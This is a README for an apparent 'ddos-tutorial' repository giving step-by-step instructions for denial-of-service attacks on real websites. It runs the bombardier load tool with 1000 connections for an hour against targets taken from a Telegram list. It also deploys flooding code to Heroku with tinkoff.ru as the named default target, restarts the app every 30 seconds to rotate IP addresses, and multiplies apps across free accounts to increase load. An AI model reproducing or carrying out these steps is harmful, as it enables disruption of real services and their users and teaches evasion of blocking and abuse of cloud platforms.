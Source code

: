 # Method 1. Local machine way
1. Install VPN if you're in Ukraine. I'm using (https://www.hotspotshield.com/);
2. Install docker https://docs.docker.com/get-docker/;
3. Choose one of the sites listed here: https://t.me/itarmyofukraine2022/5;
4. Run `docker run -ti --rm alpine/bombardier -c 1000 -d 3600s -l <your url>`;

# Method 2. Cloud way (with node.js example) (linux/mac)
1. Create account on https://www.heroku.com/
2. (Optional) Add billing information(no payment will happen!). This will give more free credits to your account
3. Create new application
4. Install heroku cli: https://devcenter.heroku.com/articles/heroku-cli#install-the-heroku-cli
5. Edit `reload.sh` file and insert your app name there.
6. Deploy there code from this repo:
```
$ heroku login
$ cd ddos-tutorial
$ heroku git:remote -a <<your-app-name>>
$ git add .
$ git commit -am "make it better"
$ git push heroku master
```
6. Run in terminal `sh reload.sh` - this script will reload heroku app each 30s, so you will get new IP address each 30 seconds.
7. In order to change destination, please change in the code (`index.js` file) `https://www.tinkoff.ru/` to any other destination and redeploy app: 
```
$ git add .
$ git commit -m "make it better"
$ git push heroku master
```
If you want to see logs from your app: 
```
$ heroku logs -t -a <<your-app-name>>
```
## Multi app DDOS

If you want, you can create more than 1 application with free account in order to generate more load. To do so, you need: 
1. Create more applications in heroku UI
2. Push code to newly created app: 
```
$ git remote rename heroku heroku-<<n>>  ## Where n is number of the app
$ heroku git:remote -a <<your-app-name-2>>
$ git push heroku master  ## This now will push your code to new app
```
Also notice that first previous app will be available for pushes under name `heroku-<<n>>`. Also notice that `heroku-<<n>>` should be uniq per origin, so n should be incremental.
3. Change `reload.sh` file and add after line `heroku restart -a <<your-app-name>>` similar line with `heroku restart -a <<your-app-name-2>>`
4. Restart sh script. 

You can repeat this untill you will reach maximum amount of dynos per account. 
After, you will need to pay in order to get more apps. 
